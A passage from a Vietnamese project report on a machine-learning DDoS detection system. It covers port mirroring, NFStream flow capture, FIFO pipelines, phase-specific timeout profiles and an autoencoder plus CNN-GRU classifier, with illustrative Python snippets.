│  │  │  (Writer)  │   Zero-copy, ~0ms latency │ generator  │           │   │
│  │  └────────────┘                         └────────────┘           │   │
│  │                                                                    │   │
│  │  Ưu điểm: Không ghi liên tục ra ổ cứng (tránh nghẽn Disk I/O)     │   │
│  └─────────────────────────────────────────────────────────────────┘   │
│                       ↓                                                  │
│  TẦNG 4: CONTROL (ONOS SDN Controller API)                               │
│  ┌─────────────────────────────────────────────────────────────────┐   │
│  │  ONOS REST API (Optional - cho centralized view)                   │   │
│  │  • Flow statistics aggregation                                  │   │
│  │  • Topology monitoring                                           │   │
│  │  • Push flow rules (mitigation)                                  │   │
│  └────────────────────────────────────────────────────────────────────┘   │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

#### 3.0.2 Lý Do Chọn NFStream (Thay vì sFlow/Zeek)

**Quá trình cân nhắc và thử nghiệm:**

| Công cụ | Thử nghiệm | Kết quả | Lý do không chọn / Chọn |
|---------|-----------|---------|------------------------|
| **sFlow / sFlow-RT** | 2 ngày | ❌ Bỏ | Chỉ thấy L2/L3, không bóc tách được L7 (HTTP headers, payload). Không đủ thông tin phân biệt HTTP Flood vs SYN Flood |
| **Zeek** | 3 ngày | ❌ Bỏ | Quá nặng! Log file lớn, CPU 80%+, RAM tăng vọt. Mininet treo máy khi traffic cao. Không real-time được |
| **NFStream** | 5 ngày | ✅ **Chọn** | **Hoàn hảo**: Vừa nhẹ (Python wrapper), vừa có L7 (nhờ nDPI C core), vừa flow-based. CPU <20%, RAM ổn định |

**Ưu điểm NFStream vượt trội:**

```python
# 1. Đủ Tầng 7, không bị thừa
# NFStream với nDPI bóc tách được:
# - L4: TCP flags, connection state
# - L7: HTTP method, User-Agent, Content-Type (từ packet headers)
# - Không "tham lam" phân tích sâu URL/file content như Zeek

# 2. Sức mạnh lõi C/C++ (nDPI)
# Dù API là Python, engine bên dưới là C viết bằng nDPI
# → Xử lý hàng triệu gói tin, CPU cực thấp

# 3. Hội tụ thông tin Flow-based
# Không trả về từng packet (quá nhiều), mà gộp thành Flow
# → Tính sẵn: Duration, Packet Rate, Byte Rate, Entropy
# → Đúng định dạng vector đặc trưng mà Autoencoder/GRU cần

import nfstream

streamer = nfstream.NFStreamer(
    source="eth0",           # Interface monitoring
    idle_timeout=5,          # Tùy chỉnh theo phase
    active_timeout=10,       # Tùy chỉnh theo phase
    n_dissections=20         # L7 dissection depth
)

for flow in streamer:
    # flow có sẵn: src_ip, dst_ip, src_port, dst_port, protocol
    #               duration, src_bytes, dst_bytes, src_packets, dst_packets
    #               l7_protocol (HTTP=1, TLS=2, DNS=3...)
    pass
```

#### 3.0.3 Port Mirroring (OVS) - An Toàn và Độc Lập

**Vấn đề nếu collector chạy trực tiếp trên Web Server:**
```
❌ Thiết kế NGUY HIỂM (Không dùng):
┌─────────────┐      DDoS Attack       ┌─────────────┐
│  Attacker   │ ═════════════════════►│   Web1      │
│             │   (100K req/s)         │  ┌─────────┐│
└─────────────┘                        │  │Collector││ ← Chết cùng Web1!
                                       │  │(NFStream││   Không kịp ghi log
                                       │  └─────────┘│
                                       └─────────────┘
```

**Giải pháp của đồ án - Port Mirroring:**
```
✅ Thiết kế AN TOÀN (Sử dụng):
┌─────────────┐                         ┌─────────────┐
│  Attacker   │ ═══════════════════════►│   Web1      │◄─────── Web2, DB
│             │                         │   (Target)  │         (Protected)
└─────────────┘                         └──────┬──────┘
                                              │
                                              │ Traffic
                                              ↓
┌─────────────────────────────────────────────────────────────┐
│              Switch s6 (Open vSwitch)                        │
│  ┌───────────────────────────────────────────────────────┐ │
│  │  Port Mirroring Rule:                                  │ │
│  │  "Mirror tất cả traffic đến Web1 ra cổng s6-eth1"      │ │
│  └───────────────────────────────────────────────────────┘ │
│                       │                                     │
│              ┌────────┴────────┐                           │
│              ↓                 ↓                           │
│         ┌─────────┐      ┌──────────┐                      │
│         │  Web1   │      │ Collector│ ◄── An toàn!        │
│         │s6-eth2  │      │s6-eth1   │     Dù Web1 crash,  │
│         └─────────┘      └──────────┘     collector vẫn   │
│                                            sống và ghi log │
└─────────────────────────────────────────────────────────────┘
```

**Code cấu hình Mirroring trong `system.py`:**
```python
# Open vSwitch Mirror Configuration
def setup_port_mirroring(switch, target_ports, mirror_port):
    """
    Cấu hình port mirroring để capture traffic an toàn
    
    Args:
        switch: OVS switch object (s6)
        target_ports: List ports cần mirror (['s6-eth2', 's6-eth3'])
        mirror_port: Port để gửi bản sao (s6-eth1)
    """
    # Tạo mirror config
    mirrors = [
        {
            "name": "flow_mirror",
            "ports": target_ports,
            "mirror-port": mirror_port
        }
    ]
    
    # Apply vào switch
    for mirror in mirrors:
        switch.cmd(f'ovs-vsctl add-br {switch.name}')
        switch.cmd(f'ovs-vsctl add-port {switch.name} {mirror["mirror-port"]}')
        
        for port in mirror["ports"]:
            switch.cmd(f'ovs-vsctl -- set Bridge {switch.name} '
                      f'mirrors=@m -- --id=@m create Mirror '
                      f'name={mirror["name"]} select-dst-port={port} '
                      f'select-src-port={port} output-port={mirror["mirror-port"]}')
    
    print(f"[MIRROR] Traffic from {target_ports} → {mirror_port}")
    print(f"[MIRROR] Collector an toàn tại {mirror_port}, không phụ thuộc Web1")
```

#### 3.0.4 Named Pipes (FIFO IPC) - Truyền Dữ Liệu Qua RAM

**Vấn đề với Disk I/O:**
```python
# ❌ Cách NGUY HIỂM: Ghi liên tục ra ổ cứng
def bad_design():
    while True:
        flow_data = capture_flow()
        with open("flows.csv", "a") as f:  # Append mỗi flow
            f.write(f"{flow_data}\n")      # DISK I/O bottleneck!
        # Khi 100K flows/s → Ổ cứng SSD cũng không kịp ghi
        # → Buffer đầy → Packet drop → Mất dữ liệu
```

**Giải pháp FIFO (Zero-copy IPC):**
```python
# ✅ Cách TỐI ƯU: Dùng Named Pipe (FIFO) trong RAM
import os
import json

FIFO_PATH = "/tmp/zeek_stream.json"

# Tạo FIFO (chỉ 1 lần khi khởi động)
os.mkfifo(FIFO_PATH)

# Writer (batPack_v2.py) - Chạy trong thread riêng
def fifo_writer(flow_queue):
    """Ghi flow vào FIFO, không block capture"""
    with open(FIFO_PATH, "w") as fifo:
        while True:
            flow = flow_queue.get()
            fifo.write(json.dumps(flow) + "\n")
            fifo.flush()  # Đẩy ra ngay, không buffer

# Reader (auto_dataset_generator.py) - Chạy song song
def fifo_reader():
    """Đọc flow từ FIFO, xử lý real-time"""
    with open(FIFO_PATH, "r") as fifo:
        for line in fifo:
            flow = json.loads(line.strip())
            process_flow(flow)  # Labeling, feature extraction
            
# Ưu điểm:
# - Không chạm ổ cứng (RAM-only)
# - Zero-copy giữa processes
# - Tốc độ: ~GB/s (giới hạn bởi RAM bandwidth)
# - Latency: <1ms giữa capture → processing
```

**Kiến trúc Multi-Process với FIFO:**
```
┌─────────────────────────────────────────────────────────┐
│              MULTI-PROCESS PIPELINE                     │
├─────────────────────────────────────────────────────────┤
│                                                          │
│  Process 1: Capture (batPack_v2.py)                     │
│  ┌─────────────────┐                                    │
│  │ NFStream Engine │                                    │
│  │ • Packet capture│                                    │
│  │ • Flow assembly │                                    │
│  │ • L7 detection  │                                    │
│  └────────┬────────┘                                    │
│           │ flows (Python objects)                        │
│           ↓                                             │
│  ┌─────────────────┐     FIFO (RAM)      ┌────────────┐│
│  │  JSON Serializer│ ═══════════════════►│FIFO Buffer ││
│  │  (non-blocking) │   /tmp/zeek_stream.json│ (RAM)     ││
│  └─────────────────┘                     └─────┬──────┘│
│                                               │         │
│  Process 2: Labeling (auto_dataset_generator)│         │
│  ┌─────────────────┐    ┌──────────────┐      │         │
│  │  JSON Parser    │◄═══│  FIFO Reader │◄─────┘         │
│  │  (streaming)    │    │  (blocking   │                  │
│  └────────┬────────┘    │   read)      │                  │
│           │ labeled flows                              │
│           ↓                                             │
│  ┌─────────────────┐                                    │
│  │ Dataset Builder │                                    │
│  │ • Label assignment                                  │
│  │ • Sequence building (10 flows)                       │
│  │ • Save to master_dataset_v7.csv                      │
│  └─────────────────┘                                    │
│                                                          │
└─────────────────────────────────────────────────────────┘
```

#### 3.0.5 Kết Hợp ONOS API và NFStream

```python
# ONOS API (Optional) cho centralized statistics
from onos_api import ONOSClient

onos = ONOSClient("http://localhost:8181", auth=("onos", "rocks"))

# Lấy topology và flow statistics từ ONOS
# (Dùng để cross-check với NFStream, không phụ thuộc hoàn toàn)
topology = onos.get_topology()
flow_stats = onos.get_flow_statistics()

# NFStream (Primary) cho real-time detection
# Chạy độc lập, không chờ ONOS response
```

**Tóm tắt ưu điểm kiến trúc 4 tầng:**

| Tầng | Công nghệ | Chức năng | Ưu điểm |
|------|-----------|-----------|---------|
| **Tầng 1** | OVS Port Mirroring | Capture traffic an toàn | Collector không chết khi Web1 bị DDoS |
| **Tầng 2** | NFStream + nDPI | Feature extraction | Nhẹ, có L7, flow-based, C core |
| **Tầng 3** | Named Pipes (FIFO) | Data transport | RAM-only, không Disk I/O, <1ms latency |
| **Tầng 4** | ONOS API | Control/Mitigation | Centralized view, push flow rules |

---

#### 3.1.1 Phase-Based Data Collection với Dynamic Timeout

**Vấn đề:** Mỗi loại tấn công có đặc thù thời gian khác nhau:
- **UDP Flood**: Gói tin 1 chiều, ngắn, liên tục (cần đóng flow nhanh)
- **SYN Flood**: Bắt tay không hoàn chỉnh (cần bắt half-open connections)
- **Slowloris**: Kết nối kéo dài, ngâm liên tục (cần giữ flow lâu)
- **Normal Traffic**: Hai chiều tự nhiên (cần timeout cân bằng)

**Giải pháp V4.0: Phase-Specific Timeout Profiles**

```python
# batPack_v2.py - Cấu hình timeout theo phase
class BatPackConfig:
    """Mỗi phase có timeout profile riêng để bắt đúng đặc trưng"""
    
    TIMEOUT_PROFILES = {
        "NORMAL": {
            "ACTIVE_TIMEOUT": 10,    # 10 giây active để bắt normal browsing
            "IDLE_TIMEOUT": 5,         # 5 giây idle để không chặt nhỏ luồng
            "desc": "Normal: Standard bidirectional flows with keep-alive"
        },
        "UDP": {
            "ACTIVE_TIMEOUT": 3,     # 3 giây - UDP là unidirectional
            "IDLE_TIMEOUT": 1,        # 1 giây - Không chờ response (UDP stateless)
            "desc": "UDP Flood: Fast flow closure (unidirectional, no handshake)"
        },
        "SYN": {
            "ACTIVE_TIMEOUT": 5,     # 5 giây - Đủ để bắt SYN nhưng không đủ hoàn thành
            "IDLE_TIMEOUT": 2,      # 2 giây - Half-open connections
            "desc": "SYN Flood: Capture incomplete handshake (SYN without ACK)"
        },
        "HTTP": {
            "ACTIVE_TIMEOUT": 8,     # 8 giây - HTTP request/response cycle
            "IDLE_TIMEOUT": 3,       # 3 giây - Connection pooling trong HTTP/1.1
            "desc": "HTTP Flood: Sustained HTTP requests with connection reuse"
        },
        "SLOWLORIS": {
            "ACTIVE_TIMEOUT": 30,    # 30 giây - Slowloris giữ connection rất lâu
            "IDLE_TIMEOUT": 15,      # 15 giây - Ngâm kết nối với keep-alive
            "desc": "Slowloris: Long-lived slow connections (partial headers)"
        }
    }
    
    @classmethod
    def get_profile(cls):
        """Auto-detect phase từ marker files"""
        markers = {
            "SLOWLORIS": ".marker_slowloris",
            "HTTP": ".marker_http", 
            "SYN": ".marker_syn",
            "UDP": ".marker_udp",
            "NORMAL": ".marker_normal"
        }
        
        for phase, marker in markers.items():
            if os.path.exists(marker):
                return cls.TIMEOUT_PROFILES[phase]
        
        return cls.TIMEOUT_PROFILES["NORMAL"]  # Default
```

**Cơ chế Marker-Based Phase Detection:**
```python
# auto_dataset_generator.py - Orchestrator tạo marker
LABELS = {
    0: "Normal",
    1: "UDP Flood", 
    2: "SYN Flood",
    3: "HTTP Flood",
    4: "Slowloris"
}

def create_phase_marker(label_id):
    """Signal batPack_v2 chuyển phase"""
    markers_base = os.path.join(BASE_DIR, "..", "ai")
    
    marker_map = {
        0: ".marker_normal",
        1: ".marker_udp",
        2: ".marker_syn",
        3: ".marker_http",
        4: ".marker_slowloris"
    }
    
    # Xóa markers cũ
    for m in marker_map.values():
        if os.path.exists(m):
            os.remove(m)
    
    # Tạo marker mới
    marker_path = marker_map.get(label_id)
    with open(marker_path, 'w') as f:
        f.write("1")
    
    label_name = LABELS.get(label_id)
    print(f"[MARKER] Created .marker_{label_name.lower().split()[0]} for phase {label_id}")
```

**Giải thích từng timeout profile:**

| Profile | Active Timeout | Idle Timeout | Mục đích |
|---------|---------------|--------------|----------|
| **NORMAL** | 10s | 5s | Giữ flow đủ lâu để thấy pattern normal, không chặt nhỏ |
| **UDP** | 3s | 1s | UDP không có response → đóng nhanh, tránh nghẽn buffer |
| **SYN** | 5s | 2s | Bắt half-open connections (SYN without ACK) trước khi timeout |
| **HTTP** | 8s | 3s | HTTP/1.1 keep-alive + connection pooling |
| **SLOWLORIS** | 30s | 15s | Giữ connection ngâm đủ lâu để AI thấy pattern "slow" |

**Flow Diagram:**
```
auto_dataset_generator.py              batPack_v2.py
         │                                    │
         │  1. Create .marker_udp           │
         │────────────────────────────────────>│
         │                                    │
         │  2. Start UDP Flood attack         │
         │────────────────────────────────────>│
         │                                    │ detect_interface()
         │                                    │ get_profile() → UDP
         │                                    │ 
         │  3. NFStreamer (UDP Profile)       │ ACTIVE_TIMEOUT=3s
         │     ACTIVE_TIMEOUT=3s             │ IDLE_TIMEOUT=1s
         │     IDLE_TIMEOUT=1s               │
         │                                    │ Flow 1 ───┐
         │                                    │ Flow 2 ───┼──> zeek_stream.json
         │                                    │ Flow 3 ───┘
         │                                    │
         │  4. Stop UDP, Create .marker_syn  │
         │────────────────────────────────────>│ Switch to SYN Profile
         │                                    │ ACTIVE_TIMEOUT=5s
         │  5. Start SYN Flood                │ IDLE_TIMEOUT=2s
         │────────────────────────────────────>│
```

**Lợi ích của Phase-Specific Timeout:**
1. **UDP Flood**: Đóng flow nhanh (3s) → Không tràn buffer với hàng nghìn gói UDP
2. **Slowloris**: Giữ flow lâu (30s) → AI thấy duration dài, phân biệt được với Normal
3. **SYN Flood**: Timeout 5s/2s → Bắt được half-open connections trước khi bị xóa
4. **Normal**: 10s/5s → Tự nhiên như thực tế, không tạo artifacts
```

#### 3.1.2 Port Entropy Calculator

```python
class PortEntropyCalculator:
    """Tính toán Entropy của cổng để phát hiện sự hỗn loạn của Botnet"""
    def __init__(self, window_size=10):
        self.window_size = 10  # Lấy 10 port gần nhất
        self.history = {}      # {ip: [port1, port2, ...]}
    
    def update_and_calculate(self, ip, port):
        if ip not in self.history:
            self.history[ip] = []
        
        self.history[ip].append(port)
        if len(self.history[ip]) > self.window_size:
            self.history[ip].pop(0)  # Giữ 10 port gần nhất
        
        # Tính Shannon Entropy
        from collections import Counter
        import math
        
        ports = self.history[ip]
        counts = Counter(ports)
        entropy = 0
        for count in counts.values():
            p = count / len(ports)
            entropy -= p * math.log2(p)
        
        return round(entropy, 4)
```

#### 3.1.3 Feature Extraction (13 Features)

| Feature | V1 (Sai) | V2 (Cải thiện) | V3-V4 (Tối ưu) | Ý nghĩa |
|---------|----------|----------------|----------------|---------|
| **Port Source** | Port số (45821) | Port số | **Port Entropy** | Độ hỗn loạn cổng → Botnet hay User |
| **Duration** | Fix 5s | Variable | Per-flow (0.001-3600s) | Thời gian kết nối: Slowloris (600s), Normal (5s) |
| **Packet_Rate** | Count | pps | pps (dynamic) | UDP Flood (30,000 pps), Normal (5 pps) |
| **Byte_Rate** | Count | Bps | Bps (dynamic) | UDP Flood (24MB/s), Normal (100KB/s) |
| **Anomaly_Score** | Bỏ | - | is_one_way (0/1) | Unidirectional traffic (thường là attack) |

### 3.2 Module Trí Tuệ Nhân Tạo (`train_colab_v2.py` + `config_v2.py`)

#### 3.2.1 Kiến Trúc Tổng Quan AI V4

AI V4 sử dụng kiến trúc **Dual-Engine** với hai mô hình song song:

```
┌─────────────────────────────────────────────────────────────────────────┐
│                      AI V4 ARCHITECTURE OVERVIEW                        │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                         │
│  INPUT: 10 flows × 26 features (13 gốc + 13 differential)              │
│                              ↓                                          │
│  ┌─────────────────────────────────────────────────────────────────┐  │
│  │              PARALLEL PROCESSING (Song song)                     │  │
│  │  ┌──────────────────┐        ┌──────────────────┐                │  │
│  │  │  SPATIAL BRANCH  │        │ TEMPORAL BRANCH  │                │  │
│  │  │  (CNN + Spatial  │        │ (Bi-GRU + Temp   │                │  │
│  │  │   Attention)     │        │   Attention)     │                │  │
│  │  │                  │        │                  │                │  │
│  │  │  • Multi-Scale   │        │  • 2-layer Bi-   │                │  │
│  │  │    Residual CNN  │        │    GRU (256 hid) │                │  │
│  │  │  • Kernel 3 & 5   │        │  • Dropout 0.4   │                │  │
│  │  │  • Channel: 64→128│        │  • Temporal      │                │  │
│  │  │                  │        │    Attention     │                │  │
│  │  └────────┬─────────┘        └────────┬─────────┘                │  │
│  │           │ 128-dim                   │ 256-dim                  │  │
│  │           └──────────────┬──────────────┘                          │  │
│  │                      CONCATENATE                                   │  │
│  │                           ↓ 384-dim                              │  │
│  │              ┌────────────────────────┐                          │  │
│  │              │   FUSION LAYERS        │                          │  │
│  │              │   • FC: 384 → 256      │                          │  │
│  │              │   • BatchNorm + ReLU   │                          │  │
│  │              │   • Dropout 0.6        │                          │  │
│  │              │   • FC: 256 → 128      │                          │  │
│  │              │   • Dropout 0.5        │                          │  │
│  │              │   • FC: 128 → 64       │                          │  │
│  │              │   • FC: 64 → 5 classes│                          │  │
│  │              └────────────────────────┘                          │  │
│  └──────────────────────────────────────────────────────────────────┘  │
│                                                                         │
│  OUTPUT: 5-class probabilities [Benign, UDP, SYN, HTTP, Slowloris]     │
│  BONUS: Temporal Attention Weights (10) + Spatial Weights (26)       │
│                                                                         │
└─────────────────────────────────────────────────────────────────────────┘
```

#### 3.2.2 Contrastive Autoencoder (Shield 1 - Anomaly Detection)

**Mục tiêu:** Học cách tái tạo dữ liệu Normal, phát hiện Attack qua Reconstruction Error cao.

**Kiến trúc Encoder (Nén dữ liệu):**
```python
self.encoder = nn.Sequential(
    nn.Linear(260, 512),      # Input: 26×10=260, tăng từ 256→512
    nn.BatchNorm1d(512),
    nn.ReLU(),
    nn.Dropout(0.25),
    nn.Linear(512, 256),       # Tăng 128→256
    nn.BatchNorm1d(256),
    nn.ReLU(),
    nn.Dropout(0.25),
    nn.Linear(256, 128),       # Tăng 64→128
    nn.ReLU(),
    nn.Linear(128, 64)         # Latent space 64-dim
)
```

**Kiến trúc Decoder (Giải nén):**
```python
self.decoder = nn.Sequential(
    nn.Linear(64, 128),
    nn.ReLU(),
    nn.Linear(128, 256),
    nn.BatchNorm1d(256),
    nn.ReLU(),
    nn.Linear(256, 512),
    nn.BatchNorm1d(512),
    nn.ReLU(),
    nn.Dropout(0.2),          # Tăng từ 0.1→0.2
    nn.Linear(512, 260)         # Output: tái tạo 260 chiều
)
```

**Contrastive Loss (Học tương phản):**
```python
class ContrastiveLoss(nn.Module):
    """
    Ép Normal-Normal gần nhau, Normal-Attack xa nhau
    """
    def __init__(self, margin=2.0, weight_anomaly=2.0):
        self.margin = margin  # Khoảng cách tối thiểu Normal vs Attack
        self.weight_anomaly = weight_anomaly

    def forward(self, ae_model, x1, x2, y):
        """
        x1, x2: Hai flow cần so sánh
        y: 0 (cùng loại - cả normal) / 1 (khác loại)
        """
        # Tính reconstruction error cho từng flow
        recon1, _ = ae_model(x1)
        recon2, _ = ae_model(x2)
        error1 = MSE(x1, recon1)
        error2 = MSE(x2, recon2)
        
        dist = torch.abs(error1 - error2)
        
        # Cùng loại (y=0): minimize distance
        # Khác loại (y=1): maximize distance (clamp at margin)
        loss = torch.where(
            y == 0,
            dist ** 2,  # Ép cùng loại có error tương đồng
            torch.clamp(self.margin - dist, min=0.0) ** 2 * self.weight_anomaly
        ).mean()
        
        return loss
```

**Giải thích Margin Loss:**
```
Margin = 2.0

Normal Flow → Encoder → Latent Space → Decoder → Reconstruct
  MSE = 0.05 (thấp) ✓

Attack Flow → Encoder → Latent Space → Decoder → Reconstruct  
  MSE = 2.5 (cao) ⚠️ Bất thường!
  
→ Càng xa Normal, MSE càng cao → Dễ phát hiện Zero-day
```

#### 3.2.3 Parallel CNN-GRU Classifier (Shield 2 - Attack Classification)

**Kiến trúc Multi-Scale Residual CNN:**
```python
class MultiScaleResidualBlock(nn.Module):
    """
    Song song 2 kernel size để bắt pattern ở nhiều tầng
    """
    def __init__(self, in_channels, out_channels):
        # Nhánh 1: Kernel 3 (Local pattern - cục bộ)
        self.branch3 = nn.Sequential(
            nn.Conv1d(in_channels, out_channels // 2, kernel_size=3, padding=1),
            nn.BatchNorm1d(out_channels // 2),
            nn.ReLU()
        )
        # Nhánh 2: Kernel 5 (Contextual pattern - ngữ cảnh rộng)
        self.branch5 = nn.Sequential(
            nn.Conv1d(in_channels, out_channels // 2, kernel_size=5, padding=2),
            nn.BatchNorm1d(out_channels // 2),
            nn.ReLU()
        )
        # Shortcut connection (Residual)
        self.shortcut = nn.Sequential(
            nn.Conv1d(in_channels, out_channels, kernel_size=1),
            nn.BatchNorm1d(out_channels)
        )
    
    def forward(self, x):
        residual = self.shortcut(x)
        out3 = self.branch3(x)   # Local features
        out5 = self.branch5(x)   # Context features
        out = torch.cat([out3, out5], dim=1)  # Ghép 2 nhánh
        out = self.bn(self.fusion(out))
        out += residual  # Residual connection
        return self.relu(out)
```

**Kiến trúc Bi-GRU + Temporal Attention:**
```python
self.gru = nn.GRU(
    input_size=26,      # 13 gốc + 13 differential
    hidden_size=128, 
    num_layers=2, 
    batch_first=True, 
    dropout=0.4,        # Tăng từ 0.3→0.4 (mạnh Regularization)
    bidirectional=True  # Nhìn cả quá khứ & tương lai
)

self.temporal_attn = AttentionLayer(hidden_size=256)  # 128×2 (bidirectional)
```

**Spatial Attention (Ưu tiên đặc trưng):**
```python
class SpatialAttention(nn.Module):
    """
    Chọn đặc trưng nào quan trọng tại thời điểm nào
    Ví dụ: SYN Flood → Ưu tiên Conn_State
         HTTP Flood → Ưu tiên L7_App_Protocol
    """
    def __init__(self, num_features):
        self.attn = nn.Sequential(
            nn.Linear(num_features, num_features // 2),
            nn.ReLU(),
            nn.Linear(num_features // 2, num_features),
            nn.Sigmoid()  # Output 0-1 cho từng đặc trưng
        )

    def forward(self, x):
        weights = self.attn(x)  # [Batch, Seq, Features] → [Batch, Seq, Features]
        return x * weights, weights  # Trả về weighted input + weights cho XAI
```

#### 3.2.4 Differential Features (13 → 26 chiều)

**Công thức tính:**
```python
def differential_features_numpy(X):
    """
    X: [Batch, Seq=10, Features=13]
    Return: [Batch, Seq=10, Features=26]
    """
    diff = np.zeros_like(X)
    diff[:, 1:, :] = X[:, 1:, :] - X[:, :-1, :]  # Δt = t - (t-1)
    
    # Ghép gốc + biến thiên
    combined = np.concatenate([X, diff], axis=-1)
    return combined  # 13 + 13 = 26 features
```

**Ví dụ thực tế:**
```python
# Input: Packet_Rate qua 10 flows
packet_rate = [20, 45, 60, 35, 50, 22, 48, 55, 30, 40]

# Tính differential
d_packet_rate = [0, 25, 15, -25, 15, -28, 26, 7, -25, 10]

# Nhận xét:
# - Normal: Differential cao, biến động ngẫu nhiên
# - Botnet: Differential thấp, pattern đều đặn
```

#### 3.2.5 Focal Loss (Xử lý Class Imbalance)

**Vấn đề:** Slowloris ít mẫu hơn nhiều so với UDP Flood → Dễ bị bỏ qua.

**Giải pháp:** Focal Loss tập trung vào mẫu khó.
```python
class FocalLoss(nn.Module):
    """
    Down-weight easy samples, focus on hard samples
    """
    def __init__(self, alpha=1, gamma=2, weight=None):
        self.alpha = alpha
        self.gamma = gamma  # Càng cao, càng tập trung vào hard
        
    def forward(self, inputs, targets):
        ce_loss = CrossEntropy(inputs, targets)
        pt = torch.exp(-ce_loss)  # Xác suất dự đoán đúng
        
        # (1-pt)^gamma: Easy sample (pt≈1) → weight ≈ 0
        #              Hard sample (pt≈0) → weight ≈ 1
        focal_loss = self.alpha * (1 - pt)**self.gamma * ce_loss
        
        return focal_loss.mean()
```

#### 3.2.6 Feature Importance Weighting

**Phân tích tương quan từ dataset:**
```python
feature_weights = np.ones(26)

# TĂNG - Các đặc trưng discriminative cao:
feature_weights[3] = 2.0   # Duration (phân biệt Slowloris vs Flood)
feature_weights[16] = 2.0  # d_Duration
feature_weights[10] = 2.0  # Packet_Rate (chỉ số vàng)
feature_weights[23] = 2.0  # d_Packet_Rate
feature_weights[11] = 1.5  # Byte_Rate
feature_weights[24] = 1.5  # d_Byte_Rate

# GIẢM - Các đặc trưng ít discriminative:
feature_weights[0] = 0.5   # Src_Port_Entropy (botnet và user đều cao)
feature_weights[1] = 0.5  # Dst_Port_Entropy
feature_weights[13] = 0.5  # d_Src_Port_Entropy
feature_weights[14] = 0.5 # d_Dst_Port_Entropy

# Áp dụng
X_weighted = X * feature_weights
```

**Rationale:**
- **Duration (×2)**: Slowloris (30-120s) vs UDP Flood (<1s) - khác biệt rõ rệt
- **Packet_Rate (×2)**: UDP Flood (thousands) vs Normal (tens) - chỉ số vàng
- **Port Entropy (×0.5)**: Cả botnet và user đều có entropy cao → kém discriminative

#### 3.2.7 Training Pipeline (Google Colab)

**Cấu hình Colab GPU:**
```python
BATCH_SIZE = 512        # Tận dụng GPU memory
EPOCHS_AE = 80          # Tăng từ 30→80
EPOCHS_CLS = 100        # Tăng từ 50→100
LEARNING_RATE = 0.001
DEVICE = cuda if available else cpu
```

**Quy trình 2 Phase:**
```python
# PHASE 1: Train Autoencoder (Unsupervised)
for epoch in range(EPOCHS_AE):
    for batch in dataloader:
        # Chỉ dùng Normal data (label=0)
        normal_data = batch[batch_y == 0]
        
        # Forward
        recon, latent = autoencoder(normal_data)
        
        # Contrastive Loss
        loss = contrastive_loss(autoencoder, anchor, positive, negative)
        
        # Tính Threshold (P99.5 của Normal MSE)
        threshold = np.percentile(all_normal_mse, 99.5)

# PHASE 2: Train Classifier (Supervised)
for epoch in range(EPOCHS_CLS):
    for batch in dataloader:
        # Dùng cả 5 classes
        logits, attn_temporal, attn_spatial = classifier(X)
        
        # Focal Loss (handle imbalance)
        loss = focal_loss(logits, y)
        
        # Early stopping nếu validation không cải thiện
```

**Data Augmentation:**
```python
# Thêm nhiễu Gaussian cho Normal data
def add_noise(X, noise_factor=0.1):
    noise = torch.randn_like(X) * noise_factor
    return X + noise

# Giúp Shield 1 "bao dung" với biến động mạng thực tế
```

**Hyperparameters quan trọng:**
| Parameter | Giá trị | Ý nghĩa |
|-----------|---------|---------|
| AE_MARGIN | 2.0 | Khoảng cách tối thiểu Normal vs Attack |
| AE_THRESHOLD_PERCENTILE | 99.5 | Chỉ 0.5% Normal bị báo False Positive |
| FOCAL_GAMMA | 2.0 | Tập trung vào mẫu khó |
| DROPOUT_CNN | 0.2 | Regularization CNN |
| DROPOUT_GRU | 0.4 | Regularization GRU |
| DROPOUT_FC | 0.6 | Regularization Fully Connected |

#### 3.2.8 Advanced Training Techniques

**1. Gradient Clipping (Chống Bùng Nổ Gradient)**

**Vấn đề:** Mạng GRU/RNN xử lý chuỗi thời gian dễ gặp **Exploding Gradients** - đạo hàm tính ra quá lớn làm trọng số bị văng xa khỏi quỹ đạo.

**Giải pháp:** Thêm chốt chặn an toàn trước khi optimizer.step().

```python
# Trong training loop
def train_step(model, data, optimizer):
    optimizer.zero_grad()
    loss.backward()
    
    # Gradient Clipping - Chỉ 1 dòng code
    torch.nn.utils.clip_grad_norm_(model.parameters(), max_norm=1.0)
    
    optimizer.step()
```

**Tác dụng:** Không cho bất kỳ lực cập nhật nào vượt quá norm=1.0, giữ gradient ổn định.

---

**2. Label Smoothing (Trị Bệnh "Hoang Tưởng")**

**Vấn đề:** Mạng phân loại (Cross Entropy) thường quá tự tin. Khi đoán SYN Flood, nó ép xác suất lên 100%, 0% cho các nhãn còn lại. Sự tự tin thái quá làm AI dễ bị lừa (Overconfidence).

**Ví dụ thực tế:** Ở phiên bản V1, AI bị "Paranoia" với Slowloris - tin chắc mọi kết nối dài đều là Slowloris, dẫn đến False Positive cao.

**Giải pháp:** Bắt AI phải chừa đường lui.

```python
# Thay vì ép nhãn đúng = 1.0 (100%)
# Ta ép nhãn đúng = 0.9 (90%), chia 10% sự nghi ngờ cho các nhãn khác

# Label Smoothing = 0.1: Mềm hóa nhãn cứng
# Label Smoothing = 0.01 (V4): Giảm dần khi ổn định

criterion = nn.CrossEntropyLoss(
    weight=tensor_weights,
    label_smoothing=0.01  # Giảm từ 0.1 → 0.01 để AI tự tin hơn khi đã ổn định
)
```

**Giải thích:**
```
Trước smoothing:  [1.0, 0.0, 0.0, 0.0, 0.0]  ← Quá cứng
Sau smoothing:    [0.996, 0.001, 0.001, 0.001, 0.001]  ← Có đường lui
```

---

**3. OneCycleLR (Bộ Lập Lịch Tối Ưu)**

**Vấn đề:** ReduceLROnPlateau quá thụ động - chỉ giảm LR khi lỗi không giảm.

**Giải pháp:** OneCycleLR hoạt động như tay đua F1:
- **Giai đoạn 1 (Warm-up):** Tăng vọt LR để vượt local minima
- **Giai đoạn 2 (Decay):** Thả ga và phanh mượt về cuối

```python
from torch.optim.lr_scheduler import OneCycleLR

# Tạo optimizer
optimizer = torch.optim.AdamW(model.parameters(), lr=0.001, weight_decay=5e-3)

# OneCycleLR với 10% warm-up
scheduler = OneCycleLR(
    optimizer,
    max_lr=0.001,
    epochs=EPOCHS_CLS,
    steps_per_epoch=len(train_loader),
    pct_start=0.1,        # 10% epochs dùng để warm-up
    anneal_strategy='cos' # Cosine decay
)

# Trong training loop
for epoch in range(EPOCHS_CLS):
    for batch in train_loader:
        loss = train_step(model, batch, optimizer)
        scheduler.step()  # Cập nhật LR mỗi batch
```

**Hiệu quả:**
```
Epoch 1-10:  LR tăng từ 0.0001 → 0.001 (Warm-up - khởi động)
Epoch 10-50: LR giảm cos từ 0.001 → 0.00001 (Fine-tuning - tinh chỉnh)

